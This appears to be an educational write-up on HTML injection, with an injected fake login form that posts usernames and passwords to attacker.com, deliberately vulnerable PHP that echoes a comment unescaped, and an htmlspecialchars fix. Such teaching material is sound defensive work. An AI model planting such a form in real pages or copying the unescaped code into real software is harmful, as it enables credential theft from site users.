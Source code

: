# Vulnerabilities

### htmli

##### description  
HTML Injection (HTMLi) is a vulnerability that occurs when an attacker is able to inject HTML code into a web page by exploiting a weakness in the input validation process. This can happen, for example, if a web application does not properly validate user input or if it allows users to submit data that includes HTML tags that can be executed on the page.  
  
Let's say there is a vulnerable web page that allows users to submit comments, which are then displayed on the page without proper validation. An attacker could submit a comment that includes a ```<form>``` tag that is used to collect sensitive information from users, such as their login credentials.  

##### example  
Here is an example of what the injected HTML code might look like:  
```html
<p>Thank you for visiting our website. Please login to continue:</p>
<form method="post" action="http://attacker.com/steal">
  <label>Username:</label>
  <input type="text" name="username"><br>
  <label>Password:</label>
  <input type="password" name="password"><br>
  <input type="submit" value="Login">
</form>
```

In this example, the attacker has injected a ```<form>``` tag that looks like a legitimate login form. The form is set up to submit the entered username and password to the attacker's website (http://attacker.com/steal) when the user clicks the "Login" button.  

When the user views the page and enters their login credentials, they will unknowingly submit them to the attacker's website instead of the legitimate website. The attacker can then use the stolen credentials to access the victim's account and carry out further attacks.  

##### code of vulnerability
Example of vulnerable code:  
```php
<?php
  $comment = $_POST['comment'];
  echo "<p>You entered the following comment:</p>";
  echo "<p>$comment</p>";
?>
```
In this code, the value of the ```$_POST['comment']``` variable is directly printed onto the page without being properly validated or filtered. This means that an attacker can inject any HTML code they want into the page by submitting a comment that includes HTML tags.  
  
##### fix 
To fix this vulnerability, we need to properly validate and filter the user input before printing it onto the page. Here's an example of how we can do this:  
```php
<?php
  $comment = $_POST['comment'];
  $filtered_comment = htmlspecialchars($comment, ENT_QUOTES, 'UTF-8');
  echo "<p>You entered the following comment:</p>";
  echo "<p>$filtered_comment</p>";
?>
```

In this updated code, we use the ```htmlspecialchars``` function to filter out any HTML tags and special characters that could be used to inject malicious code. The ```ENT_QUOTES``` flag is used to ensure that both single and double quotes are properly escaped, and the ```'UTF-8'``` parameter specifies the character encoding to use. This helps prevent HTML injection and other types of code injection attacks.

